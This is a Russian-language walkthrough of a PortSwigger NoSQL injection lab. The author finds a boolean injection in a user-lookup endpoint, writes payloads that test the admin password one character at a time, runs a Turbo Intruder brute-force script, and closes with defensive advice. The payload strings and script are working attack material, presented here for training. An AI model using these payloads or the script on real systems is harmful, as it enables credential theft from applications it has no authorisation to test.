


лаба https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data

#### Exploiting NoSQL injection to extract data

задание:
извлеките пароль для `administrato`

-----

изучая карту сайта - нашел такой запрос




пробую
`GET /user/lookup?user=administrator HTTP/2`
ответ (жесть конечно - но)
```http
200

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```
то есть сайт со спокойной совестью отдает мне персональные данные юзеров, класс

----


отправляю туда жесткий пейлоад
```http
GET /user/lookup?user='"`{\r;$Foo}\n$Foo \\xYZ\u0000 HTTP/2
```
в ответе 200
и 
```json
{
  "message": "There was an error getting user details"
}
```
Произошла ошибка при получении сведений о пользователе

это похоже больше на ошибку от бд - а не от сервера
причем такая реакция есть только на одинарную кавычку

------

пробую 

GET /user/lookup?user={"username":%20"admin",%20"password":%20{"$regex":%20"^a"}} HTTP/2

-----

GET /user/lookup?user='+%26%26+1+%26%26+'x HTTP/2
GET /user/lookup?user='+%26%26+0+%26%26+'x HTTP/2

GET /user/lookup?user=wiener'%20%26%26%20'1'%3d%3d'2
GET /user/lookup?user=wiener'%20%26%26%20'1'%3d%3d'1

на все 4 запроса ответ 200  "message": "Could not find user"

-----


ПОПАЛ

`GET /user/lookup?user=administrator'+%26%26+1+%26%26+'x `
ответ 200 с параметрами админа!!!
а вот так
`GET /user/lookup?user=administrator'+%26%26+0+%26%26+'x `
ответ уже  "Could not find user"

---------

отлично! уже с этим можно работать!! это булевая уязвимость!
значит можно посимвольно вытаскивать данные

-------

вот так можно вытаскивать символы
```
administrator' && this.password[0] == 'a' || 'a'=='b

это же в url

administrator'%20%26%26%20this.password[0]%20%3D%3D%20'a'%20||%20'a'%3D%3D'b
```


запускаю туРРРбо итрудер

```python
import random
import time
try:
    from urllib.parse import quote
except ImportError:
    from urllib import quote

def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                          concurrentConnections=25,
                          requestsPerConnection=100,
                          pipeline=False)
    
    # ==== ГЛАВНОЕ ИЗМЕНЕНИЕ: r перед кавычками ====
    payloads_raw = r"""

q
w
e
r
t
y
u
i
o
p
a
s
d
f
g
h
j
k
l
z
x
c
v
b
n
m

"""
    # ==== КОНЕЦ ИЗМЕНЕНИЯ ====

    # Разбираем сырой текст в список
    # Добавляем обработку ошибок кодировки
    payloads = []
    for line in payloads_raw.split('\n'):
        line = line.strip()
        if line:
            # ==== ЕЩЁ ОДНА ЗАЩИТА ====
            # Принудительно перекодируем в utf-8, игнорируя ошибки
            try:
                # Пробуем просто взять строку как есть
                payloads.append(line)
            except UnicodeDecodeError:
                # Если что-то пошло не так, игнорируем проблемные символы
                line = line.encode('utf-8', errors='ignore').decode('utf-8')
                payloads.append(line)
            except:
                # Если совсем всё плохо, пропускаем строку
                pass
    
    # Если список пейлоадов пустой, добавляем тестовый, чтобы скрипт не сломался
    if not payloads:
        payloads = ["test"]
    
    requests = []
    for payload in payloads:
        # Твой код вставки пейлоада в запрос
        final_request = target.req.replace('%s', payload)
        requests.append(final_request)
    
    min_delay = 50
    max_delay = 200
    
    for request in requests:
        engine.queue(request)
        if random.random() > 0.1:
            delay = random.randint(min_delay, max_delay)
            time.sleep(delay / 1000.0)

def handleResponse(req, interesting):
    if interesting:
        req.label = "INTER"
        table.add(req)
    elif req.status == 500:
        response_text = req.response.lower()
        sql_indicators = ['sql', 'syntax', 'mysql', 'database', 'error', 'exception', 'warning']
        if any(indicator in response_text for indicator in sql_indicators):
            req.label = "POTENTIAL SQLi"
            table.add(req)
```

-----

ну а далее классика и перебор букв

первая - n
s
i
e
r
i
m
t

---

итого пароль = nsierimt


лаба решена!




### выводы и защита

нет никакой - валидации символов и спец слов

чтобы защититься нужно валидировать тип данных если ждешь строку то проверяй что это строка а не объект с операторами

нельзя использовать пользовательский ввод в `$where` или других js выражениях

лучше применять параметризованные запросы и заранее подготовленные фильтры

ошибки базы не должны показывать пользователю детали достаточно простого "не найдено"

и конечно нельзя чтобы эндпоинт отдавал пароль или другие чувствительные данные даже для админа